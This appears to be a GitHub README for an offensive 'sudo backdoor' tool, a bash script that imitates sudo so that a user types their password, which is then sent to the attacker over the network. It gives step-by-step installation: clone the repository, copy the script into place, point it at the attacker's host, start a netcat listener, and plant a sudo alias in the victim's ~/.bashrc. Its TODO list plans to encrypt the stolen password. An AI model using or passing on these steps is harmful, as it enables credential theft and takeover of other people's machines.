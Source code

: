 # Sudo backdoor
This bash script mimics the original sudo binary behavior to con a user into
typing his password.

The backdoored sudo displays different message based on the locale language used
on the host (english and french for the time being).

The password is sent over the network for the attacker to retrieve.

## Installation
Once you gain access to a user account that you suspect being sudoer, you can
place this backdoored sudo script to gain administrative control over the host.

```
cd /tmp
git clone https://github.com/nisay759/sudo-backdoor.git
cd sudo-backdoor
cp sudo.sh /somewhere/in/the/filesystem/sudo
```

Now you should modify the script (the line before the last one) to forward the
password to your host, instead of localhost. You should fire up a netcat
listener on port 31337 and wait.

Next, you want the user to call the backdoored sudo instead of the original one:

```
echo 'alias sudo="/somewhere/in/the/filesystem/sudo"' >> ~/.bashrc
```
for example.

## TODO
- [ ] Add support for other languages
- [ ] Encrypt the password before sending it
